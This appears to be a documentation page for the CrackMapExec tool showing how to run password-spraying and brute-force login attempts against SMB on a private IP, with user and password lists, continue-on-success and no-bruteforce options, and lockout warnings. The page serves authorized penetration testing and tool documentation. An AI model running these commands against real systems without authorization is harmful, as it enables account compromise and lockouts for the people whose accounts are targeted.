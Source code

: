 # Password Spraying

## Using Username/Password Lists

You can use multiple usernames or passwords by seperating the names/passwords with a space.

```
#~ cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18
#~ cme smb 192.168.1.101 -u user1 -p password1 password2 password3
```

CME accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18
#~ cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

{% hint style="warning" %}
By default CME will exit after a successful login is found. Using the **--continue-on-success** flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list Usage example:
{% endhint %}

```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

### Checking login == password using wordlist

```
#~ cme smb 192.168.1.101 -u user.txt -p user.txt
```

### Checking multiple usernames/passwords using worlist

```
#~ cme smb 192.168.1.101 -u user.txt -p password.txt
```

&#x20;**** The result will be:

* user1 => password1
* user1 => password2
* user2 => password1
* user2 => password2

{% hint style="danger" %}
Be careful to not lock accounts using this technique
{% endhint %}

### Checking one login equal one password using wordlist

{% hint style="success" %}
No bruteforce possible with this one as 1 user = 1 password
{% endhint %}

```
#~ cme smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes
```

The result will be:

* user1 => password1
* user2 => password2

{% hint style="danger" %}
Avoid range or a list of IP when using option --no-bruteforce
{% endhint %}
